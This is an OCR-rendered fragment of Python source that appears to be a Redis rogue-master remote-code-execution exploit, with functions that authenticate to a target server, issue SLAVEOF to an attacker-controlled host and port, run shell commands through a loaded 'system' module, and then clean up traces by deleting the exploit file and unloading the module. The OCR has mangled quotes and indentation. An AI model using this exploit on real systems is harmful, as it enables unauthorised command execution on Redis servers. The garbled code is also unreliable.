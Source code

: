 ```
if l:

print(l)

except KeyboardInterrupt:

return

def cleanup(remote, expfile):

# clean up

print("[*] Clean up…")

remote.do(“CONFIG SET dbfilename dump.rdb”)

remote.shell_cmd(“rm ./{}”.format(expfile))

remote.do(“MODULE UNLOAD system”)

remote.close()

def printback(remote):

back = remote._sock.getpeername()

print("\033[92m[+]\033[0m Accepted connection from {}:{}".format(back[0], back[1]))

def runserver(rhost, rport, lhost, lport):

# get expolit filename

expfile = os.path.basename(filename)

#start exploit

try:

remote = Remote(rhost, rport)

if auth:

check = remote.do(“AUTH {}”.format(auth))

if “invalid password” in check:

print("\033[1;31;m[-]\033[0m Wrong password !")

return

else:

info = remote.do(“INFO”)

if “NOAUTH” in info:

print("\033[1;31;m[-]\033[0m Need password.")

return

```
 print("[*] Sending SLAVEOF command to server")
    remote.do("SLAVEOF {} {}".format(lhost, lport))